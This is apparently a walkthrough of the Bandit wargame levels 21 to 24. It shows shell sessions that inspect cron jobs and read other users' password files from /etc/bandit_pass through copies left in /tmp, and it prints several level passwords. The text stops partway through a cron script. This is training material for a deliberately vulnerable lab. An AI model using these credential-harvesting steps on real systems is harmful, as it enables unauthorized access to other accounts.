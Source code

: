 bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22
```
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
```

bandit21@bandit:~$ cat /usr/bin/cronjob_bandit22.sh
```
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
```

# Level 22 -> 23:
bandit22@bandit:~$ ll /etc/cron.d/ | grep bandit23
-rw-r--r--   1 root root   122 Aug 15 13:16 cronjob_bandit23
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
```
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
```
bandit22@bandit:~$ cat  /usr/bin/cronjob_bandit23.sh
```
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
```
bandit22@bandit:~$ mytarget=$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
bandit22@bandit:~$ cat /tmp/$mytarget
```
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```


# Level 23 -> 24:
bandit23@bandit:~$ ll /etc/cron.d/ | grep bandit24
-rw-r--r--   1 root root   120 Aug 15 13:16 cronjob_bandit24
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
```